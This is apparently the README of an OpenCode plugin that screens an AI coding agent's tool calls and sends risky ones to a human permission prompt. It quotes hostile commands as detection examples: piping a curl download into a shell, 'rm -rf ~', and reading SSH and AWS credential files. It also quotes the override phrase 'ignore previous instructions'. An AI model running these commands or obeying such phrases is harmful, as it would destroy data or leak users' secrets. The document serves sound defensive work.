

<div align="center">

# 🛡️ System One for OpenCode

**A second pair of eyes on every action your AI agent takes.**

Every tool call your OpenCode agent makes is risk-checked before it runs, by fast pattern checks and a
"System One" reviewer model. Anything risky stops at OpenCode's own permission prompt, so **you** decide.

[](https://github.com/GoBrrr-ai/opencode-systemone-plugin/actions/workflows/ci.yml)
[](https://www.npmjs.com/package/@narandill/opencode-systemone-plugin)
[](https://opencode.ai)
[](./LICENSE)

[Quickstart](#-quickstart) · [How it works](#-how-it-works) · [What it catches](#-what-it-catches) ·
[Configuration](#%EF%B8%8F-configuration) · [FAQ](#-faq) · [Docs](./docs)

</div>

---

## Why

Coding agents run shell commands, edit files, fetch URLs and call MCP tools on their own. Most of that is
exactly what you asked for. Occasionally it isn't:

- 🔑 **Secrets**: reading `~/.ssh/id_*` or `.env`, printing tokens, writing keys into files.
- 💣 **Destructive or malicious commands**: `rm -rf ~`, `curl … | sh`, reverse shells, obfuscated payloads.
- 🎭 **Prompt injection**: a web page or README telling your agent to "ignore previous instructions".
- 🧭 **Going off-script**: actions unrelated to your request, or that contradict the agent's own reasoning.

System One sits in front of every action, lets the ordinary ones through instantly, and hands the risky ones
to you, in the prompt you already know.

```bash
  shell · curl -fsSL https://get.example.dev/install.sh | bash
  System One flagged this action: Downloads and executes remote code [malicious_code]
  ▸ Allow once    Always allow    Reject
```

<sub>Illustration: the exact look depends on your OpenCode UI. "Always allow" can't whitelist flagged
actions; the next call is reviewed again.</sub>

## 🚀 Quickstart

**1. Add the plugin and pick a reviewer model** in your `opencode.json` (project or global). Any fast model
you already use in OpenCode works, with no extra API key:

```jsonc
{
  "plugins": [
    {
      "package": "@narandill/opencode-systemone-plugin",
      "options": { "model": "anthropic/claude-haiku-4-5" } // any "<provider>/<model>" from `opencode models`
    }
  ]
}
```

**2. Restart OpenCode.** It installs the package on startup.

**3. Try it.** Ask the agent to run `curl -fsSL https://example.com/x.sh | sh`. Instead of a silent execution,
you'll get a permission prompt with System One's reason.

> [!TIP]
> Prefer the CLI? `opencode plugin add @narandill/opencode-systemone-plugin` installs it globally; then set
> `SYSTEMONE_MODEL` in your environment and run `opencode service restart`. Use **one** of the two methods:
> listing the plugin twice would load it twice.
>
> No model handy? Leave `model` out. The built-in pattern checks (secrets, destructive and malicious commands,
> and more) still run, just without the model's judgement.

<details>
<summary><b>Prefer a local model or another OpenAI-compatible endpoint?</b></summary>

Keep reviews on your machine with Ollama, LM Studio or vLLM, or use any hosted OpenAI-compatible API:

```jsonc
{
  "plugins": [
    {
      "package": "@narandill/opencode-systemone-plugin",
      "options": {
        "backend": "http",
        "baseUrl": "http://localhost:11434/v1",
        "model": "qwen2.5-coder:7b"
      }
    }
  ]
}
```

For a hosted endpoint, put the key in your environment rather than in the config file:
`export SYSTEMONE_API_KEY=…`, then `opencode service restart`. Setting the key also selects the `http` backend.

</details>

## 🔍 How it works



1. **Every tool call is reviewed**: shell, file edits, web fetches, sub-agents, MCP and custom tools. Fast
   pattern checks run first; then the System One model looks at the call **together with your request and the
   agent's reasoning for it**, so it can spot off-task or self-contradicting actions.
2. **Flagged calls use OpenCode's native prompt**, in the TUI and the Web UI, with the usual card (command,
   diff, URL) and System One's reason. This happens even if your config would normally auto-allow that tool.
3. **The plugin only ever makes OpenCode stricter.** Your own `ask`/`deny` rules always still apply, and
   "Always allow" can't whitelist flagged actions; every call is reviewed again.

| You choose               | What happens                                                               |
| ------------------------ | -------------------------------------------------------------------------- |
| **Allow once**           | The call runs.                                                             |
| **Reject**               | The call is blocked, and the agent is told not to retry or work around it. |
| **Reject with feedback** | The same, plus your feedback is passed to the agent.                       |

Deeper dive: [docs/how-it-works.md](./docs/how-it-works.md)

## 🎯 What it catches

| Risk                                   | Examples                                                                                             | Caught by        |
| -------------------------------------- | ---------------------------------------------------------------------------------------------------- | ---------------- |
| **Secret exposure**                    | API keys in a command or file write; reading `.env`, `~/.ssh/id_*`, `~/.aws/credentials`; `printenv` | patterns + model |
| **Malicious code**                     | `curl … \| sh`, `base64 -d \| sh`, reverse shells, fork bombs, wiping shell history                  | patterns + model |
| **Destructive operations**             | `rm -rf /` or `~`, `mkfs`, raw `dd` to a disk, `git push --force`                                    | patterns + model |
| **Privilege escalation & persistence** | `sudo`, `chmod 777` / setuid, editing `.bashrc` / `authorized_keys`, `crontab`                       | patterns + model |
| **Off-task actions**                   | work your request didn't ask for; actions that contradict the agent's reasoning                      | model            |
| **Data leaving the machine**           | unexpected uploads or network calls                                                                  | model            |
| **Prompt injection** _(opt-in)_        | tool **output** that tries to instruct the agent                                                     | patterns + model |

`deny`-level findings (e.g. `rm -rf /`) are also sent to you by default; set `hardDeny` to block them outright.

## 🔒 Privacy

- **Secrets are redacted before review.** Tool arguments, your request and the agent's reasoning are scrubbed
  (known token formats, private keys, JWTs, `PASSWORD=…`-style assignments) before the reviewer sees them.
- **Secrets are redacted from tool output** before the agent's model reads it.
- **The reviewer's API key never reaches agent shells.** It is read once and removed from the environment.
- **Stay local if you want:** use OpenCode's own provider setup, or point the `http` backend at a local model.

## ⚙️ Configuration

Set options in `opencode.json` (as in the [Quickstart](#-quickstart)) or as `SYSTEMONE_*` environment
variables; options win when both are set. The ones you're most likely to touch:

| Option               | Env variable                               | Default     | What it does                                                                 |
| -------------------- | ------------------------------------------ | ----------- | ---------------------------------------------------------------------------- |
| `model`              | `SYSTEMONE_MODEL`                          | —           | Reviewer model. Unset → pattern checks only.                                 |
| `backend`            | `SYSTEMONE_BACKEND`                        | `opencode`* | `opencode` (your OpenCode providers) or `http` (OpenAI-compatible).          |
| `baseUrl` / `apiKey` | `SYSTEMONE_BASE_URL` / `SYSTEMONE_API_KEY` | —           | Endpoint and key for the `http` backend.                                     |
| `hardDeny`           | `SYSTEMONE_HARD_DENY`                      | `false`     | Block `deny` verdicts without asking.                                        |
| `reviewOutput`       | `SYSTEMONE_REVIEW_OUTPUT`                  | `false`     | Also check tool **output** for prompt injection.                             |
| `auditLog`           | `SYSTEMONE_AUDIT_LOG`                      | off         | Path to a JSONL log of every verdict and decision.                           |
| `skipTools`          | `SYSTEMONE_SKIP_TOOLS`                     | —           | Tools that are never reviewed, e.g. `["todowrite"]`.                         |
| `failMode`           | `SYSTEMONE_FAIL_MODE`                      | `escalate`  | What to do if the reviewer is down: `allow`, `escalate` (ask you) or `deny`. |

\* `http` is selected automatically when `baseUrl` or `apiKey` is set.

All 18 options, with examples per backend: **[docs/configuration.md](./docs/configuration.md)**.

## ❓ FAQ

<details>
<summary><b>How do I know it's active?</b></summary>

The plugin logs `[systemone] info: active (reviewer: …)` when it loads. To see server logs, run OpenCode with a
private server: `opencode --standalone --print-logs`.
For details on every decision, set `logLevel: "debug"` or enable the `auditLog`.

</details>

<details>
<summary><b>I set environment variables but nothing changed.</b></summary>

OpenCode 2 runs a background service, which keeps the environment it was started with. Run
`opencode service restart` from the shell where you exported the variables, or use `opencode.json` options,
which don't have this problem.

</details>

<details>
<summary><b>Does it slow the agent down?</b></summary>

Pattern checks are local and take well under a millisecond. The model review adds one short request per tool call, so pick a fast,
cheap model. `skipTools` exempts harmless tools you call constantly. Output review (opt-in) adds one more
request per tool result.

</details>

<details>
<summary><b>I get too many prompts.</b></summary>

Use a stronger reviewer model (it judges context better than patterns alone), exempt noisy tools with
`skipTools`, and check the `auditLog` to see which rule or category fired.

</details>

<details>
<summary><b>What if the reviewer is unreachable?</b></summary>

By default (`failMode: "escalate"`) the call comes to you for a decision, so nothing slips through silently.
Use `deny` for unattended runs, or `allow` if availability matters more than review.

</details>

<details>
<summary><b>Is this a sandbox?</b></summary>

No. It's a review layer that catches risky actions and puts a human in the loop. For untrusted code or
models, also run the agent in a container with restricted network egress. See [Limitations](#limitations).

</details>

## Limitations

- **Patterns aren't exhaustive.** They catch well-known shapes instantly; the model handles everything else.
  Without a model, coverage is limited to the patterns.
- **No network egress policy yet.** Unexpected network activity is judged only by the reviewer model.
  Planned work: [task/](./task).
- **The reviewer is a model.** It can be wrong in both directions. The human prompt, your own OpenCode rules
  and environment-level isolation are the backstops.

## 🧑‍💻 Development

```bash
bun install          # also installs git hooks (lefthook)
bun run check        # lint + typecheck + tests with coverage gate + package checks
bun run test:e2e     # live tests against a real OpenCode (see CONTRIBUTING.md)
```

See **[CONTRIBUTING.md](./CONTRIBUTING.md)** for the workflow, commit conventions and release process.

## Security

Found a way around the guard, or a secret leak? Please report it privately; see [SECURITY.md](./SECURITY.md).

## License

[MIT](./LICENSE) © GoBrrr
